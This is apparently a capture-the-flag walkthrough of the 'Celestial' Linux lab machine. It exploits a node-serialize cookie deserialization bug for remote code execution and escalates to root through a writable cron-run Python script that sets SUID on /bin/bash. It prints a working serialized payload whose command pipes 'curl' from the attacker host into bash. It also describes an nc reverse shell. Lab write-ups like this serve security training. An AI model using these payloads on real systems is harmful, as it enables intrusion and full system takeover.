







<br />

OS -> Linux.

Difficulty -> Medium.

<br />

# Introduction:
<br />
Hello hackers! Today we will be solving the Celestial Machine. An easy difficulty Machine in which we will have to exploit a deserialization attack in node.js that will allow us to gain access to the System. Once inside, we will carry out the privilege escalation by exploiting a Python script executed by root at time intervals in the system.

Without further ado, let's get to the first phase, the enumeration phase!

<br />

# Enumeration:

<br />

We start by running the typical nmap scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.10.85 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-29 19:31 CET
Nmap scan report for 10.10.10.85
Host is up (0.076s latency).
Not shown: 64449 closed tcp ports (reset), 1085 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.04 seconds
```

<br />

As we can see, nmap has only detected Port 3000 open, node.js default port, so we proceed to list it and find the following:

<br />



<br />

At first glance, it doesn't seem interesting at all, but when intercepting the request with Burp Suite we find the following:

<br />



<br />

# Node JS Deserilization 

<br />

The cookie appears to be in base64, so let's apply a decode:

<br />

```bash
❯ echo -n 'eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ==' | base64 -d
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```
<br />

Let's try to control the output of the page manipulating the cookie vault and resending it with Burp Suite:

<br />

```bash
❯ echo -n '{"username":"Clever","country":"TheBest","city":"Barcelona","num":"10000"}' | base64 -w 0
eyJ1c2VybmFtZSI6IkNsZXZlciIsImNvdW50cnkiOiJUaGVCZXN0IiwiY2l0eSI6IkJhcmNlbG9uYSIsIm51bSI6IjEwMDAwIn0=
```
<br />

 

<br />

We have been able! The server has interpreted the serialized data that we have sent it without any control. So if we build a malicious payload we can try to execute commands on the system.

<br />

## Crafting a Malicious Serialized Payload:

<br />

To probe our theory, we are going to craft a payload to receive a curl from the victim machine in a localhost server hosted in our port 8082.

To do this we will use a data serializer that we have taken from the following website -> [https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

<br />

```js
var y = {
 rce : function(){
 require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
 },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```
<br />

We run it to get the payload:

<br />

```bash
❯ js serialize.js
Serialized: 
{"rce":"_$$ND_FUNC$$_function(){\n require('child_process').exec('curl 10.10.14.13 | bash', function(error, stdout, stderr) { console.log(stdout) });\n }"}
```
<br />

# IIFE (Inmediately Invoked Function Expression):
<br />

Well, we already have the Payload ready, but it's not all there yet. In order for the server to execute our command, we will have to enter the IIFE in our payload, otherwise, no command will be executed when the server deserializes our serialized data. 

For people who do not know what the IIFE is, here is a resource that will come in handy -> [https://www.geeksforgeeks.org/immediately-invoked-function-expressions-iife-in-javascript/](https://www.geeksforgeeks.org/immediately-invoked-function-expressions-iife-in-javascript/)
<br />



<br />

Once the IIFE has been entered, we store the data in a file and apply a base64 decode:

<br />

```bash
❯ cat data | base64 -w 0
eyJyY2UiOiJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKXtcbiByZXF1aXJlKCdjaGlsZF9wcm9jZXNzJykuZXhlYygnY3VybCAxMC4xMC4xNC4xMyB8IGJhc2gnLCBmdW5jdGlvbihlcnJvciwgc3Rkb3V0LCBzdGRlcnIpIHsgY29uc29sZS5sb2coc3Rkb3V0KSB9KTtcbiB9KCkifQoKCgoKCgoKCgoKCgoK
```

<br />

Now that we have the data, we go back to Burp Suite and replace the cookie, we set up a server with Python on port 8082, click on resend and... surprise!! We have received the curl from the Victim Machine!!

<br />



<br />

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.85 - - [29/Dec/2024 21:30:34] "GET / HTTP/1.1" 200 -
```
<br />

As we have already verified the remote execution of commands, we proceed to create a index.html to be able to establish a reverse shell and gain access once and for all to the Victim Machine by repeating the previous process but listening with nc through port 443 of our Machine:

<br />



<br />

Intrusion ready. Let's go for privilege escalation!

<br />

# Privilege Escalation: Sun -> root

<br />

We did some research on the system and upon launching pspy we found that root is running a cron task on the system:

<br />



<br />

We list the permissions of the script.py that is running root:

<br />

```bash
sun@celestial:~/Documents$ ls -l
total 4
-rw-rw-r-- 1 sun  sun  29 Dec 29 11:16 script.py
lrwxrwxrwx 1 root root 18 Sep 15  2022 user.txt -> /home/sun/user.txt
```

<br />

As we can see, we own the script, so we proceed to delete it to create a malicious script so that when the cron task runs we can atribute SUID privilege to the /bin/bash.

<br />

## Malicious Script Content:

<br />

```python 
#!/usr/bin/env python3

import os

os.system("chmod 4755 /bin/bash")
```

<br />

Once we create the script, we wait a bit and when we list the /bin/bash we see that the SUID privilege was successfully attributed, so we can now become root!!

<br />

```bash
sun@celestial:~/Documents$ bash -p
bash-4.3# whoami
root
bash-4.3# id
uid=1000(sun) gid=1000(sun) euid=0(root) groups=1000(sun),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

<br />

Celestial Machine ready! I hope you enjoyed it as much as I did, keep hacking!!❤️❤️

<br />
